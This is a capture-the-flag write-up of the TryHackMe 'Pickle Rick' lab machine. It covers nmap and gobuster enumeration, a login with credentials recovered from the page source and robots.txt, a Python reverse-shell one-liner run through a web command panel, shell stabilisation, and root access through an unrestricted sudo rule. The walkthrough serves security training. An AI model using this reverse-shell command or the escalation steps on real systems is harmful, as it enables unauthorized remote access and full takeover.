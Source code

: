 ```yaml
---
title: "TryHackMe - Pickle Rick"
author: Nasrallah
description: "Writeup of easy machine Pickle Rick"
date: 2021-12-27 00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, web, reverse-shell, python, gobuster]
image:
  src: https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg
  width: 268
  height: 268
  alt: picklerick
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

Hello l33ts, I hope you are doing well. Today we are going to look at [Pickle Rick](https://tryhackme.com/room/picklerick) from TryHackMe.

# **Description**
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

# **Enumeration**
As usual, let's start our nmap scan using this commad : `sudo nmap -sV -sC {target_IP} -oN nmap.scan`

-sV - find the version of all the service running on the target

-sC - run all the default scripts

-oN - save the output in a file called nmap

## nmap
```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 10:06 EST
Nmap scan report for 10.10.237.232
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 85:92:6a:04:0e:1c:53:94:c6:8b:84:5f:c3:a3:fc:41 (RSA)
|   256 c1:9b:c3:79:38:ee:e2:ed:fc:85:57:4f:ae:ef:2a:12 (ECDSA)
|_  256 81:d8:73:fe:2d:c0:ce:79:43:bc:56:e7:c9:64:aa:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```
We see that there is 2 open ports:
- 22(SSH)
- 80(HTTP)

Let's check the web server. Oh no, it seems that Rick is in a problem, anyway, let's check the page source code.
![Sourcecode](/assets/img/tryhackme/pickle/source.png)
Nice, we have found a username,Let's now run Gobuster directory scan using the following command: `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u {target_IP} -x php,txt`

- -x: is to tell gobuster to search for extensions(php, txt)

## Gobuster
```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.237.232
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/12/24 10:19:06 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 296]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.237.232/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/index.html           (Status: 200) [Size: 1062]                                  
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]                                   

===============================================================
```
Gobuster has found some good stuff, we have a login page and robots.txt file, let's check the latter.

That's a weird string we have found, let's save it and go check to login page.
We have the username and the weird string we found in robots.txt, let's supply them and see what happens.

Great, we are in, and it seems we have a command panel where we can execute code on the target, let's try to get a reverse shell with that.

# **Foothold**
 After checking that python3 is installed on the target machine with `which python3` command, i executed the following command to get a reverse shell on my machine after setting up a listener of cource: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
 > You need to change the ip address in the command!

```terminal
$ nc -lnvp 9001                                                                                                                                      130 ⨯
listening on [any] 9001 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.237.232] 58428
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-237-232:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-237-232:/var/www/html$ ^Z #pressed ctrl+z
zsh: suspended  nc -lnvp 9001

$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001 #pressed enter

www-data@ip-10-10-237-232:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
www-data@ip-10-10-237-232:/var/www/html$
```

The commands i executed are for getting a stable shell.
# **Privilege Escalation**
When we run `sudo -l ` we see that we can run whatever we want!
```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-237-232.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-237-232.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-237-232:/home/rick$
```
This made our task much easier. With that, we can upgrade directly to root.
```terminal
www-data@ip-10-10-237-232:/home/rick$ sudo su
root@ip-10-10-237-232:/home/rick# whoami
root
root@ip-10-10-237-232:/home/rick#
```

And just like that we have rooted Pickle Rick machine, hope you guys enjoyed it. See you in the next Hack.
